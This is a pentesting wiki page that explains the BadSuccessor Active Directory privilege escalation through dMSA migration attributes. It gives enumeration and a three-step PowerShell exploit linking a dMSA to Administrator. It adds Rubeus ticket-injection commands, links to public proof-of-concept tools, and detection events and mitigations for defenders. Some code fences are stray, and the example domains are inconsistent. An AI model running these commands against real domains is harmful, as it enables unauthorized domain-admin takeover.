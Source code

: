 # BadSuccessor: Privilege Escalation via Delegated MSA Migration Abuse


## Overview

Delegated Managed Service Accounts (**dMSA**) are the next-generation successor of **gMSA** that ship in Windows Server 2025.  A legitimate migration workflow allows administrators to replace an *old* account (user, computer or service account) with a dMSA while transparently preserving permissions.  The workflow is exposed through PowerShell cmdlets such as `Start-ADServiceAccountMigration` and `Complete-ADServiceAccountMigration` and relies on two LDAP attributes of the **dMSA object**:

* **`msDS-ManagedAccountPrecededByLink`** – *DN link* to the superseded (old) account.
* **`msDS-DelegatedMSAState`**       – migration state (`0` = none, `1` = in-progress, `2` = *completed*).

If an attacker can create **any** dMSA inside an OU and directly manipulate those 2 attributes, LSASS & the KDC will treat the dMSA as a *successor* of the linked account.  When the attacker subsequently authenticates as the dMSA **they inherit all the privileges of the linked account** – up to **Domain Admin** if the Administrator account is linked.

This technique was coined **BadSuccessor** by Unit 42 in 2025.  At the time of writing **no security patch** is available; only hardening of OU permissions mitigates the issue.

### Attack prerequisites

1. An account that is *allowed* to create objects inside **an Organizational Unit (OU)** *and* has at least one of:
   * `Create Child` → **`msDS-DelegatedManagedServiceAccount`** object class
   * `Create Child` → **`All Objects`** (generic create)
2. Network connectivity to LDAP & Kerberos (standard domain joined scenario / remote attack).

## Enumerating Vulnerable OUs

Unit 42 released a PowerShell helper script that parses security descriptors of each OU and highlights the required ACEs:

```powershell
Get-BadSuccessorOUPermissions.ps1 -Domain contoso.local
```
```
Under the hood the script runs a paged LDAP search for `(objectClass=organizationalUnit)` and checks every `nTSecurityDescriptor` for

* `ADS_RIGHT_DS_CREATE_CHILD` (0x0001)
* `Active Directory Schema ID: 31ed51fa-77b1-4175-884a-5c6f3f6f34e8` (object class *msDS-DelegatedManagedServiceAccount*)

## Exploitation Steps

Once a writable OU is identified the attack is only 3 LDAP writes away:

```powershell
# 1. Create a new delegated MSA inside the delegated OU
New-ADServiceAccount -Name attacker_dMSA \
                     -DNSHostName host.contoso.local \
                     -Path "OU=DelegatedOU,DC=contoso,DC=com"

# 2. Point the dMSA to the target account (e.g. Domain Admin)
Set-ADServiceAccount attacker_dMSA -Add \
    @{msDS-ManagedAccountPrecededByLink="CN=Administrator,CN=Users,DC=contoso,DC=com"}

# 3. Mark the migration as *completed*
Set-ADServiceAccount attacker_dMSA -Replace @{msDS-DelegatedMSAState=2}
```
```
After replication the attacker can simply **logon** as `attacker_dMSA$` or request a Kerberos TGT – Windows will build the token of the *superseded* account.

### Automation

Several public PoCs wrap the entire workflow including password retrieval and ticket management:

* SharpSuccessor (C#) – [[https://github.com/logangoins/SharpSuccessor|https://github.com/logangoins/SharpSuccessor]]
* BadSuccessor.ps1 (PowerShell) – [[https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1|https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1]]
* NetExec module – `badsuccessor` (Python) – [[https://github.com/Pennyw0rth/NetExec|https://github.com/Pennyw0rth/NetExec]]

### Post-Exploitation

```powershell
# Request a TGT for the dMSA and inject it (Rubeus)
Rubeus asktgt /user:attacker_dMSA$ /password:<ClearTextPwd> /domain:contoso.local
Rubeus ptt /ticket:<Base64TGT>

# Access Domain Admin resources
dir \\DC01\C$
```
```
## Detection & Hunting

Enable **Object Auditing** on OUs and monitor for the following Windows Security Events:

* **5137** – Creation of the **dMSA** object
* **5136** – Modification of **`msDS-ManagedAccountPrecededByLink`**
* **4662** – Specific attribute changes
  * GUID `2f5c138a-bd38-4016-88b4-0ec87cbb4919` → `msDS-DelegatedMSAState`
  * GUID `a0945b2b-57a2-43bd-b327-4d112a4e8bd1` → `msDS-ManagedAccountPrecededByLink`
* **2946** – TGT issuance for the dMSA

Correlating `4662` (attribute modification), `4741` (creation of a computer/service account) and `4624` (subsequent logon) quickly highlights BadSuccessor activity.  XDR solutions such as **XSIAM** ship with ready-to-use queries (see references).

## Mitigation

* Apply the principle of **least privilege** – only delegate *Service Account* management to trusted roles.
* Remove `Create Child` / `msDS-DelegatedManagedServiceAccount` from OUs that do not explicitly require it.
* Monitor for the event IDs listed above and alert on *non-Tier-0* identities creating or editing dMSAs.

## See also

[[golden-dmsa-gmsa.md]]

## References

- [[https://unit42.paloaltonetworks.com/badsuccessor-attack-vector/|Unit42 – When Good Accounts Go Bad: Exploiting Delegated Managed Service Accounts]]
- [[https://github.com/logangoins/SharpSuccessor|SharpSuccessor PoC]]
- [[https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1|BadSuccessor.ps1 – Pentest-Tools-Collection]]
- [[https://github.com/Pennyw0rth/NetExec/blob/main/nxc/modules/badsuccessor.py|NetExec BadSuccessor module]]


